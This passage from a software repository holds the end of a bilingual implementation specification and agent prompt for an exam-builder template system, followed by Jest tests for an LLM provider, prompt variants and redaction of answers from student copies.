round-trips for user text if it creates new privacy or latency burdens.

Request/response must include content schema version, template revision and
optional optimistic-concurrency token. Reject stale apply when template
or exam has changed since preview to avoid clobbering recent edits.
Response pattern remains {success: boolean, ... , error?: string}.
Use HTTP codes meaningfully, errors in Vietnamese, no stack trace or
secrets. Protect requests by limits and deterministic error structure.
No service should silently return partial success for a failed atomic map.

DATA EVOLUTION / MIGRATION
--------------------------
- Design migration with schema_version integer, forward-only additive
  tables/columns where possible. Back up/rollback strategy required before
  mutating persisted data. Migration should be idempotent.
- Examinations with no template_binding remain first-class legacy exams.
  They must still parse, render, edit, share, archive and export.
- If a question is converted into a template slot, preserve original
  content/options/correct_answer/explanation/draft_lines_count;
  no normalization should accidentally mutate protected $LaTeX$ spans.
- Handle templates referencing non-existent assets and newer schema
  versions gracefully; allow reading metadata and safe fallback rather
  than whole library failure. Unknown optional fields should round-trip
  where safe to maintain forward compatibility.
- If migrating Gist library envelope, write regression tests covering
  historical examples and old-client compatibility; do not change old
  tombstone and primary-wins merge semantics for exams.
- Android DTO version extension must match web JSON. Publish fixture data
  consumed by both platforms. If Kotlin model can't represent optional
  feature, preserve unknown JSON or explicitly use an extensible envelope.
- Keep old prompt parser format and legacy autogenerated JS modules
  current. Any addition to standard input grammar needs dedicated version,
  tests, source TXT changes, and npm run gen:prompt.

LEGACY LLM API DIAGNOSTICS — USER REPORTS IT CURRENTLY FAILS
-----------------------------------------------------------
This is a USER-REPORTED symptom, not a confirmed root cause. Repair it as
an ISOLATED regression/bug-fix workstream, without making it a dependency
of the copy/paste Template System.
  (a) Reproduce via existing /api/settings/llm/test, provider selection,
      /api/settings/llm/models (if present), and /api/generate using a
      harmless small sample or local mocks; do not require credentials
      inside source/reports or put secrets in logs.
  (b) Inspect current LLM_SETTINGS, model registry, ProviderFactory,
      OpenAIProvider, AnthropicProvider, GeminiProvider, LocalGgufProvider,
      promptBuilder, generateRoutes and frontend error handling.
  (c) Distinguish network/DNS/proxy/TLS issues from 401 bad or expired
      credentials, 403 permissions, 404 removed model/endpoint, 429 quotas,
      model list schema drift, unsupported API/model params, timeout,
      context/output truncation, provider malformed response, prompt
      construction and VALID provider output that legacy parser rejects.
  (d) Preserve server-side key masking; add structured sanitized errors
      with provider/stage/request correlation ID and user-friendly text,
      never sensitive request bodies or API keys. Never echo key in UI.
  (e) Add mocked provider contract/unit/integration tests (success, 4xx,
      5xx, 429, timeout, invalid result, parser failure, retry limits),
      optional real smoke test only if user environment has configured
      credentials; no fabricated external-call success.
  (f) Fix only evidence-supported defect(s), document reproduction and
      what was verified, and preserve disabled/no-key flow. If genuinely
      unreproducible, report the precise logs/settings needed without
      blocking M1–M7. Do not casually upgrade every API/library.
  (g) External AI manual Copy Prompt -> Paste -> Parse -> Map -> Export
      MUST work with no key, offline except optional assets and server.

PERFORMANCE & RELIABILITY BUDGET
-------------------------------
- Common workflows should not reparse a whole PDF or rerender 200-page
  document after a minor slot edit. Cache previews by content and layout
  hash; debounce expensive redraws. Avoid huge base64 in DOM/localStorage.
- Drag-and-drop reorder must remain responsive with 100+ questions.
- Prompt generation pure/deterministic with linear growth in slot count.
- Upload processing streaming or bounded-memory, server-side quotas,
  temp-file cleanup on both success and exceptions. If imported file is
  enormous, stop with clear explanation and offer manual background mode.
- Background derivatives of practical print resolution; keep both
  preview and export quality where feasible and cap sizes.
- PDF page rasterization, if used for background previews, is bounded by
  page count/resolution/time; never spawn a nonterminating conversion on
  the request thread. No OCR at all in current scope.
- Android cache avoids OOM; downsample per current DPI and release decoded
  bitmaps. Missing large asset produces readable output + warning.
- Error and progress states are part of product: never leave an infinite
  spinner if converter or renderer fails.

TEST PLAN — AUTOMATED + VISUAL + CROSS-PLATFORM
----------------------------------------------
Retain ALL existing tests. Add unit/integration/E2E tests for:

CATALOG / EDITOR:
 [ ] exactly ten built-ins, EXACT names as confirmed; stable engineer-
     specified IDs/counts in manifest; built-in slot counts immutable;
     no duplicate seeds across restarts; valid nonempty sections.
 [ ] builtins immutable including slot count; clone/edit creates user
     template; CRUD/reload,
     order persistence, deleted custom template safe, asset ref protection.
 [ ] template revisions and exam snapshots; older exam unaffected when
     source template changes or is removed.
 [ ] stable slot IDs after rename/reorder/insert/delete; duplicated slots
     get unique IDs; duplicate IDs rejected.
 [ ] all four question types, four difficulty levels; multiple subjects,
     metadata, subquestions and answer-space types.
 [ ] exact decimal scoring; 0.1+0.2 and 0.25*12; score distribute
     remainder; reject negative, NaN, overflow, invalid fractions;
     verify parent subparts and all sections sum.
 [ ] drag-and-drop keyboard alternative and changing inspector state.

PROMPTS / PARSING:
 [ ] P1, P2, P3 generated for ALL 10 x ALL 5 AI variants;
     not 150 divergent static strings; generated prompt always current.
 [ ] prompt exact counts, sections, score, slot IDs, difficulty, subject,
     presence of full answer/solution; no instruction to generate images.
 [ ] each variant's fixture parses and correctly maps to slots.
 [ ] unknown legacy grammar fields cleaned safely; metadata in arbitrary
     order either handled predictably or rejected clearly (not appended
     to neighboring field); repaired missing newlines tested.
 [ ] legacy text without IDs still passes existing TextPromptParser and
     suggests mapping only when unambiguous.
 [ ] no-ID, duplicate-ID, unknown-ID, wrong section, wrong question type,
     wrong point, wrong option count, invalid correct answer, missing
     explanation, empty input, oversized input, malformed unicode.
 [ ] selected-slot P2 doesn't output/change unselected slots; P3 diff
     and Apply/Cancel; stale revision rejects apply with no partial writes.
 [ ] parse warnings vs errors: cannot claim mathematical correctness.
 [ ] math promotion idempotence and Kotlin parity fixtures unchanged.
 [ ] prompt source artifacts regenerated and matched, no hand edits.

BACKGROUNDS / IMPORTS / SECURITY:
 [ ] upload PNG/JPEG/WebP, safe SVG handling, file type spoofed extensions,
     SVG script injection, path traversal and file name collisions.
 [ ] massive dimensions, large PDF, corrupt PDF, invalid DOCX and malformed
     ZIP; clean temp files; don't crash server; no arbitrary file reads.
 [ ] PDF-native text detection; scans get explicit NO OCR warning and
     manual-background fallback; Word table parsing,
     multiple columns ambiguities, manual review mapping; no false success.
 [ ] safe template import/export round-trip including used assets and
     checksums; import older versions and newer unsupported versions.
 [ ] missing/deleted/offline assets leave question content intact.

LAYOUT / EXPORT:
 [ ] no clipped answer text at A4/A5 boundaries, portrait/landscape,
     narrow margins, long Vietnamese and Unicode strings, large equations.
 [ ] one-column and two-column reading order; keep question/MCQ options
     together when practical; questions move to next page if necessary.
 [ ] auto pagination; max-pages warning that identifies offending slot,
     no hidden truncation; print preview agrees with export.
 [ ] background shows at right opacity/fit when printable; PDF import as
     actual background derivative rather than invisible PDF CSS URL.
 [ ] Word output opens, content editable, lines and sections in correct
     order; PDF parses/prints, correct number of pages where calculable.
 [ ] 4 export views student, teacher, answer-only, combined;
     student output contains NO correct answer/solution/marking rubric.
 [ ] existing multiple exam codes shuffle options and update answer key
     correctly with template metadata and score; no question omitted.
 [ ] layout and content preserved when saved/reopened and when applying
     a second template with mapping review.

ANDROID / SYNC:
 [ ] native/opened template exam displays and exports offline;
     matching question numbering, normalized maths, points, headings;
     default full PDF + DOCX export content retained.
 [ ] missing/big backgrounds trigger warning and safe fallback; test memory
     thresholds for representative device/emulator.
 [ ] Gist push/pull existing tests stay green; template metadata merges;
     old cloud library and old Android ignore optional new fields safely.
 [ ] old exam history and tombstones survive; sharing student link does
     not leak answers; follow security checks on encoded ?data links.

TEST EXECUTION / VERIFICATION:
- Baseline npm test, npm run test:coverage, npm run gen:prompt followed by
  generated file diff check, and any project lint/build scripts present.
- Jest/Supertest tests with isolated in-memory SQLite; test each new route,
  transactions and concurrent writes and file upload handling.
- UI browser smoke tests (headless Playwright/Puppeteer only if sensible
  for current repo): choose T03 -> customize -> compose/copy P1 -> paste
  valid AI sample -> preview -> export; reopen history and compare.
- Open exported Word with a real OOXML validation library or app and PDF
  with a PDF reader and/or rasterizer; inspect visual results, count pages,
  demonstrate backgrounds and margins. If no supported renderer installed,
  state exactly which visual checks were not run, don't claim success.
- Android Gradle unit tests/build when JDK/Android SDK available (JDK 24
  currently documented for project tooling), and parity sample. If no
  device/SDK, list files compiled/tested and outstanding manual steps.
- Test negative paths and security invariants, not only happy-path UI.
- Produce manual QA checklist for at least one instance of each of ten
  seeds, all three prompt groups, all five AI variant selections, and
  student/teacher/export/restore workflows. Keep artifacts small and
  remove temporary secrets; don't commit generated PDF screenshots unless
  appropriate to repo.

MILESTONE-BASED EXECUTION — ORDER MATTERS
----------------------------------------
M0 DISCOVERY & FOUNDATION (no risky rewrite)
  Deliver dependency audit, source-of-truth map, ADR with data contracts,
  migration plan, test plan, integration points and existing-test baseline.
  Protect dirty worktree. Verify the parser facts and present test status.
  Open a separate evidence-based diagnostic track for user-reported
  existing LLM API breakage; do not hold template milestones hostage.

M1 DOMAIN MODEL, BUILT-INS & REPOSITORY
  Create versioned schema, validators, ten seeds, safe mutable clones,
  SQLite persistence/migration, stable section/slot IDs, score check,
  unit tests. Keep old exam flow unchanged.

M2 WEB TEMPLATE GALLERY + SIMPLE EDITOR
  Add gallery, search, custom templates, editor list+inspector,
  reorder, points, response spaces, page layout, preview and save/clone.
  Preserve HTML/CSS/JS vanilla stack and themes. Add interaction tests.

M3 PROMPT ENGINE + AI RESPONSE MAPPER (HIGHEST PRIORITY)
  Implement central rules, three prompt groups, five AI variants,
  exact dynamic slot-based prompts, Copy Prompt per template, versioned
  text parser adapter, validator, mapping/diff/Apply/Cancel, partial
  regeneration, teacher feedback. Test all combinations and legacy input.

M4 ASSETS & IMPORT MODES
  Unified background library, secure upload, image processing, DOCX/PDF
  import-as-background, best-effort structure detection and manual review,
  previews/thumbnails. OCR specifically FORBIDDEN for this iteration;
  write only future roadmap with concrete optional integration seam.
  Add asset manifests and missing/oversize fallbacks.

M5 PDF/DOCX LAYOUT & POLISH
  Export student/teacher/key/combined, two-column template, answer-space
  rendering, A4/A5/orientation/header/footer/page numbers, auto/max pages,
  print warnings, legacy shuffle parity. Verify actual files visually.

M6 ARCHIVE/SYNC + ANDROID COMPANION
  Archive snapshots, versioning/merge, bounded asset sync or offline bundle,
  Kotlin DTO extension, Android open/view/export with graceful fallback,
  cross-platform fixtures, migration tests.

M7 HARDENING & DELIVERY
  Include best-effort existing LLM API regression diagnosis/fix with mocked
  tests and optional authenticated smoke check, without claiming to solve
  failures that cannot be reproduced or requiring keys for manual prompts.
  E2E smoke tests, adversarial checks, accessibility, performance,
  docs update, changelog, known limitations, check against acceptance
  matrix. No untested large surprise refactor. Commit only if user has
  authorized commit; never push remote without explicit permission.

WORKFLOW BETWEEN MILESTONES:
- Implement one bounded milestone, run its tests and all relevant existing
  tests, fix regressions, update docs, record exact changed files and
  known residual limitations, then proceed to next. Do not mark done if
  acceptance tests fail. Don't leave placeholder handlers wired to live UI.
- If blocked by unavailable SDK/system converter, complete independent
  portions honestly and document needed external dependency/manual steps;
  never silently delete scope or fake implementation.

DEFINITION OF DONE / ACCEPTANCE MATRIX
-------------------------------------
The project is ready for the user's review only when:

[1] Exactly ten named built-in templates exist, each with fixed section/
    question counts as shipped, immutable in original form; accessible
    and editable via independent user clones; never duplicated on restart.
[2] A user can fill built-in seed slots and edit per-exam metadata without
    changing immutable stock counts. Via a CUSTOM CLONE the user can edit
    section/slot structure, number/types of questions, score, response
    spaces, page dimensions and appearance; save and reopen. Built-in
    stock manifest/counts remain identical after restart.
[3] Every template has one accessible area containing P1/P2/P3, an AI
    selector covering five named models, working Copy Prompt and a prompt
    that updates with every structural change.
[4] AI output is structured TEXT only, with all required question content,
    answer and worked solution; parser maps it to exact slots, validates
    errors, shows unresolved mappings, and preserves untouched questions.
[5] Scores are displayed and checked; neither AI nor import changes user
    point allocations invisibly.
[6] Background images can be selected and uploaded in the web UI. Word/PDF
    import offers the two modes, genuinely best-effort local recognition,
    a manual review path, and clear limitations on scanned documents.
[7] PDF/Word export includes page setup, optional background, score,
    answer-space, teacher/student/answer-key settings without data loss;
    pagination auto/max-page is functional and warnings are useful.
[8] Built-in two-column, reading passage and math-answer-space templates
    have working specialized layouts, not only different display names.
[9] Historical data, all old import formats, share, archive, shuffling,
    current AI auto-generate, sync, math and themes remain functional.
[10] Android opens/previews/exports supported templates, preserves text
     even with missing big assets and provides truthful fallback.
[11] Security checks cover untrusted model text and uploaded DOCX/PDF/SVG.
[12] Automated tests and representative real export visual checks pass;
     remaining limitations are explicitly listed with reproduction steps.

DOCUMENTATION TO ADD/UPDATE IN REPOSITORY
----------------------------------------
- documents/TEMPLATE_SYSTEM_PRD.md (or existing documents convention):
  user stories, confirmed requirements vs assumptions, ten templates,
  prompt groups, acceptance checklist.
- documents/TEMPLATE_SYSTEM_ARCHITECTURE.md: component boundaries,
  contracts, migrations, storage and sync, diagrams, JSON examples.
- documents/TEMPLATE_SYSTEM_PROMPT_SPEC.md: grammar version, central
  prompt source and variant registry, sample P1/P2/P3, mapping semantics,
  instructions to regenerate generated prompt modules without hand editing.
- documents/TEMPLATE_SYSTEM_TEST_PLAN.md: unit/API/UI/export/Android
  suite, test fixtures and full manual QA matrix.
- documents/TEMPLATE_SYSTEM_FUTURE_OCR.md (or a clear ROADMAP section):
  future-only offline OCR extension design, not executable code or package.
- A short LLM_API_DIAGNOSTICS report with actual repro/log stage/root cause
  if found, tests and disclosure of unverified external-credential paths.
- README.md, PROJECT_CONTEXT.md: user-facing operation, new routes,
  exact limitations; note creation date and branch as appropriate.
- PROJECT_BLUEPRINT.md: regenerate using the project's tool if available;
  NEVER hand-edit a generated blueprint.

EXECUTION REPORT FORMAT
-----------------------
When running under Claude Code or Codex, at the end report in Vietnamese:
  1. Completed milestones and what actually works.
  2. Files changed/created, schema migrations, compatibility notes.
  3. Tests executed with real pass/fail numbers; specific skipped tests.
  4. How to start web; how to open template gallery and paste an AI result.
  5. How to export/import backgrounds and DOCX/PDF, current limitations.
  6. Android build/sync parity status and missing asset behavior.
  7. Security/performance audit, LLM API diagnostic findings and known
     limitations. Explicitly say OCR NOT implemented; PDF scan fallback.
  8. Engineering choices not specified by user (e.g. counts selected for
     the ten immutable stock seeds), plus any residual limitations;
     NEVER call Q1–Q42 'unanswered'.
Do not present green checkmarks for tests that were never run.

=======================================================================
PHẦN IV. MẪU PROMPT NGƯỜI DÙNG SẼ THẤY TRONG TEMPLATE SYSTEM
=======================================================================

This section is a REFERENCE output example for the composer, not a request
for ChatGPT now to generate examination questions. Implement the runtime
generator based on template values. Exactly 3 groups; model-specific
modifiers applied after common rules. The exact field grammar must be
verified against actual parser before release.

[P1] SINH TOÀN BỘ NỘI DUNG ĐỀ — REFERENCE EXAMPLE
-------------------------------------------------
Bạn là trợ lý tạo câu hỏi kiểm tra. Chỉ xuất ra VĂN BẢN THUẦN theo định
 dạng ExamBuilder; KHÔNG tạo ảnh, nền, file Word/PDF, bố cục trang, markdown,
 khối code, lời mở đầu hay lời kết.
 Thông tin đề: {{exam_title}}, môn {{subject}}, lớp {{grade}},
 chủ đề {{topic}}, {{duration_minutes}} phút.
 Cấu trúc template đã khóa: {{template_id}} — {{template_revision}}.
 Sinh ĐÚNG các phần và slot sau: {{sections_and_slot_requirements}}.
 Mỗi câu phải có Ma_Khung, Ma_Phan, Diem, Loai, Muc_Do, De_Bai,
 Dap_An, Loi_Giai, So_Dong_Nhap; TN có lựa chọn A./B./C./D..
 Diem phải bằng điểm được cấp cho slot; không sửa điểm hay số dòng.
 Lời giải phải đầy đủ, đúng toán/logic nhất có thể, không chỉ ghi A/B/C.
 Không tự tạo câu ngoài danh sách; không tự ý bỏ câu.
 Với công thức toán: sử dụng $...$ hoặc $$...$$ theo quy tắc chuẩn.
 Không tự tạo hay yêu cầu tạo hình ảnh. Nếu câu bắt buộc cần hình, chỉ
 đề xuất placeholder theo quy tắc của hệ thống (nếu được phép), để giáo
 viên upload hình ở chức năng khác.
 {{COMMON_CANONICAL_LEGACY_GRAMMAR_FROM_SINGLE_SOURCE}}
 {{MODEL_SPECIFIC_RELIABILITY_RULES}}

[P2] SINH THEO PHẦN / SLOT — REFERENCE EXAMPLE
----------------------------------------------
Bạn chỉ được sinh văn bản đề kiểm tra cho các slot sau:
{{exact_selected_slot_ids_with_requirements}}.
Giữ nguyên mọi slot không được chọn. Không nhắc lại hoặc thay đổi câu cũ.
Tuân thủ cùng cú pháp, điểm và lời giải đầy đủ như P1.
Không sinh ảnh/Word/PDF. Chỉ xuất những khối văn bản cần điền.
{{COMMON_CANONICAL_LEGACY_GRAMMAR_FROM_SINGLE_SOURCE}}
{{MODEL_SPECIFIC_RELIABILITY_RULES}}

[P3] KIỂM TRA / SỬA / SINH LẠI — REFERENCE EXAMPLE
--------------------------------------------------
Bạn kiểm tra các câu sau: {{selected_questions}}.
Hành động yêu cầu: {{repair_intent}}.
Kiểm tra tính đúng của đáp án, lời giải, mức độ và yêu cầu trong template;
chỉ viết lại đúng slot được chỉ định, giữ nguyên Ma_Khung và Diem.
Không thay đổi slot khác, không sinh ảnh hay file định dạng trang giấy.
Nếu người dùng chọn validate-only, trả ra báo cáo có cấu trúc theo schema
đã định nghĩa; nếu chọn sửa/tái sinh, chỉ xuất các câu được phép sửa theo
cú pháp ExamBuilder. Không gộp báo cáo và câu hỏi làm hỏng parser.
{{COMMON_CANONICAL_LEGACY_GRAMMAR_FROM_SINGLE_SOURCE}}
{{MODEL_SPECIFIC_RELIABILITY_RULES}}

Important implementation note: Avoid injecting raw HTML from pasted
AI messages in the prompt preview or validation diff. Keep user-provided
content escaped and render maths through the established safe pipeline.

=======================================================================
PHẦN V. CHECKLIST ĐỐI CHIẾU YÊU CẦU, ĐIỀU KHÔNG ĐƯỢC BỎ SÓT
=======================================================================

01. Không sửa lại ExamBuilder từ đầu / không đổi stack tùy tiện.
02. Đúng 10 tên template, T09 hai cột, T10 Ngoại ngữ đọc hiểu.
03. Khung hình thức + khung nội dung tách lớp.
04. Editor ổn định, đơn giản; seed gốc FIXED count, clone mới thêm/xóa/
    kéo thả/up-down; Canva chỉ công cụ ngoài xuất PNG/PDF.
05. Số dòng, dòng kẻ, ô ly, vùng trống, bảng và vùng vẽ.
06. Điểm câu/phần/tổng đề, đối chiếu và cảnh báo.
07. Prompt bên dưới mỗi template, đủ ba nhóm P1/P2/P3.
08. Chọn đủ ChatGPT/Claude/Gemini/DeepSeek/Grok, Copy Prompt.
09. Prompt lưu trong nguồn tập trung, không rải khắp code.
10. Prompt tự cập nhật khi đổi cấu trúc/điểm/số dòng/chủ đề.
11. AI bên ngoài CHỈ tạo text câu hỏi/đáp án/lời giải đầy đủ.
12. Không có AI tạo ảnh/template phong cách hay nền.
13. Upload background từ web; có thư viện chọn nền.
14. Nhập ảnh/Word/PDF (ảnh nền và chuyển cấu trúc tách chế độ).
15. Nhận diện Word/PDF không bắt buộc LLM; có manual review.
16. Tuyệt đối KHÔNG OCR hiện tại; PDF scan dùng nền/đánh dấu thủ công;
    chỉ roadmap tương lai ghi tùy chọn OCR offline.
17. Ứng dụng parser + slot mapper + structural validation.
18. Sinh toàn bộ, từng phần, từng câu, chọn lọc, không ghi đè ẩu.
19. Chế độ auto pagination + max-pages cảnh báo tràn.
20. PDF/Word A4/A5, ngang/dọc, lề, header/footer, số trang.
21. HS/GV/đáp án riêng/gộp đáp án, giữ bí mật đáp án trong bản HS.
22. Không phá trộn mã đề / đảo đáp án / hệ thống đánh số cũ.
23. Không phá LaTeX/KaTeX/JLaTeXMath và vector parity Kotlin.
24. Lưu template riêng, version/snapshot, khôi phục đề cũ.
25. Asset metadata và binary tách biệt; Gist không chứa file khổng lồ.
26. Android mở, xem, xuất; cố giữ nền/font/bố cục; fallback khi quá lớn.
27. Bảo mật upload, safe text, validation, nguồn câu hỏi không đáng tin.
28. Test regression toàn repo và kiểm tra file PDF/DOCX thật.
29. Mọi câu 1–42 đã chốt; phân biệt engineering choice còn lại (ví dụ
    số lượng câu cố định cụ thể theo từng built-in seed) với user decisions.
30. Claude/Codex phải làm công việc thật trong repo, không chỉ mô tả.
31. 10 built-in mẫu giữ số câu/cấu trúc cố định; bản sao mới được sửa.
32. Không phụ thuộc key/API; audit lỗi API LLM cũ như luồng riêng.
33. Không triển khai OCR hoặc tải gói/model; chỉ ghi roadmap sau này.
34. Canva chỉ công cụ xuất nền PNG/PDF bên ngoài nếu user muốn.

=======================================================================
PHẦN VI. ROADMAP TƯƠNG LAI — OCR (CHỈ TÀI LIỆU, TUYỆT ĐỐI KHÔNG CODE)
=======================================================================

CHỐT TỪ CHỦ DỰ ÁN: Không đưa OCR vào phiên bản hiện tại vì chi phí tài
nguyên, độ phức tạp và kích thước. Nhập PDF scan ở hiện tại chỉ:
  - xem trang gốc / dùng làm background;
  - tạo và điều chỉnh vùng điền text thủ công;
  - có cảnh báo rằng phần mềm không trích xuất chữ trong trang scan.

ĐỂ MỞ RỘNG SAU, CHỈ CẦN GHI ROADMAP/ADR, KHÔNG IMPLEMENT:
  1. Tương lai có thể có optional offline OCR adapter với ranh giới rõ
     giữa raster PDF page -> OCR blocks (text, bbox, confidence, language)
     -> review UI -> structure importer -> template slots.
  2. Gắn OCR sau bước phát hiện native text layer; chỉ gọi khi người dùng
     đồng ý. Chức năng mới phải tắt mặc định, không download model tự động.
  3. Đánh giá lựa chọn Tesseract local hay thư viện offline phù hợp lúc
     thực sự cần. OCR hiện đại có thể dùng model ML cục bộ nhưng KHÔNG
     cần gửi file tới API AI bên ngoài.
  4. Dự trù giới hạn trang, DPI, RAM/CPU, timeout, tiến độ, bộ nhớ tạm,
     hủy công việc, xóa dữ liệu tạm; tiếng Việt, công thức toán, bảng,
     nhiều cột là các case khó phải QA riêng.
  5. Review/confidence và sửa tay vẫn bắt buộc; OCR không đủ để khẳng
     định nhận biết đúng câu/điểm/đáp án. OCR là phụ trợ, không được làm
     thay đổi cấu trúc template hay grammar prompt.
  6. Migration/fixtures rõ ràng; nếu plugin OCR không cài thì ứng dụng
     vẫn chạy 100% tính năng hiện tại.

NGHIÊM CẤM TRONG MILESTONE HIỆN TẠI:
  - Cài tesseract.js, Tesseract CLI, PaddleOCR, EasyOCR, model OCR,
    OCR cloud API hoặc thêm nút OCR chưa hoạt động.
  - Quét PDF scan bằng OCR trong luồng mặc định/ẩn.
  - Báo "đã nhận diện" khi thực tế chỉ hiển thị ảnh scan.

=======================================================================
QUY TẮC CHẤT LƯỢNG CUỐI CÙNG
---------------------------
Do not ship a feature that looks impressive but fails when a user copies
AI text, imports it into the selected template, and prints a usable paper.
Correct data mapping, reliable prompt output, readable print layout and
retaining old features matter more than animation, ornamental editor UI,
or indiscriminately adding libraries.

END OF SINGLE FINAL MASTER SPECIFICATION + IMPLEMENTATION PROMPT.

đọc prompt_update.txt và thực hiện
nhớ là thêm các task, thêm file .md tiến trình hoặc có rồi thì thôi, khi nào xong tới đâu thì đánh dấu tới đó
```

### FILE: tests/llm/OpenAIProvider.test.js

```javascript
const { OpenAIProvider } = require('../../backend/llm/OpenAIProvider');

// Hop dong request voi OpenAI, chay bang fetch gia - khong goi mang that.
describe('OpenAIProvider.generate', () => {
  const realFetch = global.fetch;
  afterEach(() => { global.fetch = realFetch; });

  test('TC-OAI-01: khong gui temperature (model reasoning chi nhan gia tri mac dinh)', async () => {
    global.fetch = jest.fn().mockResolvedValue({ ok: true, json: async () => ({ choices: [{ message: { content: 'OK' } }] }) });
    await expect(new OpenAIProvider('sk-test', 'gpt-5').generate('xin chao')).resolves.toBe('OK');
    const [url, init] = global.fetch.mock.calls[0];
    expect(url).toBe('https://api.openai.com/v1/chat/completions');
    const body = JSON.parse(init.body);
    expect(body).toEqual({ model: 'gpt-5', messages: [{ role: 'user', content: 'xin chao' }] });
    expect(body).not.toHaveProperty('temperature');
  });

  test('TC-OAI-02: HTTP 400 tra loi co ma trang thai, khong chua API key', async () => {
    global.fetch = jest.fn().mockResolvedValue({ ok: false, status: 400, text: async () => '{"error":{"message":"Unsupported value"}}' });
    const error = await new OpenAIProvider('sk-secret-123', 'o3').generate('x').catch(e => e);
    expect(error.message).toContain('HTTP 400');
    expect(error.message).not.toContain('sk-secret-123');
  });

  test('TC-OAI-03: phan hoi rong bao loi ro rang', async () => {
    global.fetch = jest.fn().mockResolvedValue({ ok: true, json: async () => ({ choices: [] }) });
    await expect(new OpenAIProvider('k', 'gpt-4o').generate('x')).rejects.toThrow('phan hoi khong chua noi dung');
  });
});

```

### FILE: tests/llm/promptVariants.test.js

```javascript
const { extractFormatInstructions } = require('../../backend/llm/promptBuilder');
const { AI_PROMPT_VARIANTS } = require('../../frontend/promptVariants.js');
const { TextPromptParser } = require('../../backend/parser/TextPromptParser.js');

const EXPECTED_IDS = ['gemini', 'gemini_pro', 'chatgpt', 'deepseek', 'claude', 'grok'];

describe('frontend/promptVariants.js <-> AI_Prompts_Variants.txt (dong bo)', () => {
  test('TC-PV-01: dung du 5 bien the, dung thu tu, khong trung id', () => {
    expect(AI_PROMPT_VARIANTS.map(v => v.id)).toEqual(EXPECTED_IDS);
  });

  test('TC-PV-02: moi bien the co label/hint/exampleTopic khong rong', () => {
    for (const v of AI_PROMPT_VARIANTS) {
      expect(v.label.length).toBeGreaterThan(0);
      expect(v.hint.length).toBeGreaterThan(0);
      expect(v.exampleTopic.length).toBeGreaterThan(0);
    }
  });

  test('TC-PV-03: template cua moi bien the chua nguyen van quy tac dinh dang dung chung', () => {
    const shared = extractFormatInstructions();
    for (const v of AI_PROMPT_VARIANTS) {
      expect(v.template).toContain(shared);
      expect(v.template).toContain('[NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY]');
    }
  });

  test('TC-PV-04: template co doan luu y rieng, khac nhau giua cac bien the', () => {
    const tails = AI_PROMPT_VARIANTS.map(v => v.template.split('LƯU Ý DÀNH RIÊNG CHO')[1]);
    for (const tail of tails) expect(tail).toBeDefined();
    expect(new Set(tails).size).toBe(AI_PROMPT_VARIANTS.length);
  });

  test('TC-PV-05: khong bien the nao lam hong dau "\\" cua LaTeX (template literal an mat)', () => {
    for (const v of AI_PROMPT_VARIANTS) {
      expect(v.template).toContain('\\sqrt{');
      expect(v.template).not.toContain('\f');
      expect(v.example).not.toContain('\f');
    }
  });
});

describe('Vi du mau cua tung bien the parse duoc (dan thang vao tab "Dan van ban")', () => {
  test.each(AI_PROMPT_VARIANTS.map(v => [v.id, v]))(
    'TC-PV-06 [%s]: parse thanh 2 khoi, du ca 4 loai cau, dap an dung',
    (_id, variant) => {
      const blocks = new TextPromptParser().parse(variant.example);
      expect(blocks).toHaveLength(2);
      expect(blocks[0].block_type).toBe('MULTIPLE_CHOICE');
      expect(blocks[1].block_type).toBe('ESSAY');

      const types = blocks.flatMap(b => b.questions.map(q => q.question_type));
      expect(new Set(types)).toEqual(new Set(['MCQ', 'TRUE_FALSE', 'FILL_BLANK', 'ESSAY']));

      const mcqs = blocks[0].questions.filter(q => q.question_type === 'MCQ');
      for (const mcq of mcqs) {
        expect(mcq.options).toHaveLength(4);
        expect(mcq.options.filter(o => o.is_correct)).toHaveLength(1);
      }

      const tf = blocks[0].questions.find(q => q.question_type === 'TRUE_FALSE');
      expect(['Dung', 'Sai']).toContain(tf.correct_answer);

      const essay = blocks[1].questions[0];
      expect(essay.draft_lines_count).toBeGreaterThan(0);
    }
  );
});

```

### FILE: tests/parser/examRedaction.test.js

```javascript
const { redactExamForStudent } = require('../../backend/parser/examRedaction');

const exam = {
  title: 'De', subject: 'Toan',
  template_binding: { template_snapshot: { sections: [{ slots: [{ content: { correct_answer: 'B', explanation: 'bi mat' } }] }] } },
  blocks: [{
    block_type: 'MULTIPLE_CHOICE', block_title: 'Phan 1',
    questions: [
      { id: 'q1', question_type: 'MCQ', content: '2 + 3 = ?', correct_answer: 'B', explanation: 'Vi 2 + 3 = 5.',
        options: [{ option_key: 'A', option_text: '4', is_correct: false }, { option_key: 'B', option_text: '5', is_correct: true }] },
      { id: 'q2', question_type: 'ESSAY', content: 'Giai x + 1 = 3', correct_answer: 'x = 2', explanation: 'Tru 1 hai ve', draft_lines_count: 4 }
    ]
  }]
};

test('TC-RED-01: ban hoc sinh khong con dap an, loi giai, is_correct hay snapshot template', () => {
  const safe = redactExamForStudent(exam);
  const json = JSON.stringify(safe);
  expect(json).not.toContain('Vi 2 + 3 = 5.');
  expect(json).not.toContain('bi mat');
  expect(json).not.toContain('x = 2');
  expect(safe.template_binding).toBeUndefined();
  expect(safe.blocks[0].questions[0].options.every(o => o.is_correct === false)).toBe(true);
  expect(safe.blocks[0].questions[0].correct_answer).toBeNull();
  expect(safe.redacted_for_student).toBe(true);
});

test('TC-RED-02: giu nguyen de bai, lua chon, so dong nhap va khong sua doi ban goc', () => {
  const safe = redactExamForStudent(exam);
  expect(safe.blocks[0].questions[0].content).toBe('2 + 3 = ?');
  expect(safe.blocks[0].questions[0].options.map(o => o.option_text)).toEqual(['4', '5']);
  expect(safe.blocks[0].questions[1].draft_lines_count).toBe(4);
  expect(exam.blocks[0].questions[0].correct_answer).toBe('B');
  expect(exam.blocks[0].questions[0].options[1].is_correct).toBe(true);
});

test('TC-RED-03: du lieu thieu blocks/questions khong lam vo ham', () => {
  expect(redactExamForStudent(null)).toBeNull();
  expect(redactExamForStudent({ title: 'x' }).blocks).toEqual([]);
  expect(redactExamForStudent({ blocks: [{ block_title: 'a' }] }).blocks[0].questions).toEqual([]);
});

```

### FILE: tests/routes/backgroundRoutes.test.js

```javascript
const fs = require('fs/promises');
const os = require('os');
const path = require('path');
const express = require('express');
const request = require('supertest');
const { Document, Packer, Paragraph } = require('docx');

const mockGetText = jest.fn();
const mockGetInfo = jest.fn().mockResolvedValue({ total: 1 });
const mockGetScreenshot = jest.fn();
const mockDestroy = jest.fn().mockResolvedValue(undefined);
const mockDocxToPdf = jest.fn();
